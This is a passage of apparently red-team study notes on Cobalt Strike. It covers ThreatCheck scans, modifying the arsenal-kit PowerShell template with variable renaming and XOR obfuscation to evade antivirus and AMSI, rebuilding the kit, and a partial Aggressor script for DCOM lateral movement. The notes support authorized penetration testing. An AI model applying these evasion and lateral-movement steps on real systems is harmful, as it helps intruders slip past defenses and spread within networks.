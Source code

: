 #### Run threatcheck on payload
```
.\ThreatCheck.exe -f <PAYLOAD>
```

### Resource-kit
- Used to modify script-based payloads including the PowerShell, Python, HTA and VBA templates.
- Location: `cobaltstrike\arsenal-kit\kits\resource`
- Using `template.x64.ps1` is enough.
- Files should go to the client.

#### Change template.x64.ps1
- From --> To
- Change ALL variables in the file
```
for ($zz = 0; $zz -lt $v_code.Count; $zz++) {
	$v_code[$zz] = $v_code[$zz] -bxor 35
}

for ($i = 0; $i -lt $v_service.Count; $i++) {
	$var_service[$i] = $v_service[$i] -bxor 35
}
```

#### Channge compress.ps1
- https://offensivedefence.co.uk/posts/making-amsi-jump/

#### Rebuilt resource kit
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

#### Load resources.cna
- Click on Cobalt Strike -> Script Manager -> Load `resources.cna` 
- Reload cobaltstrike UI
- Use Payloads -> Windows Stageless Generate All Payloads to replace all

#### Run threatcheck on payload
```
.\ThreatCheck.exe -f <PAYLOAD> -e AMSI
```

## Extending Cobalt Strike
### Agressor scripts
### Jump and remote-exec
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exec_method_register

#### Jump dcom command
- Using https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
```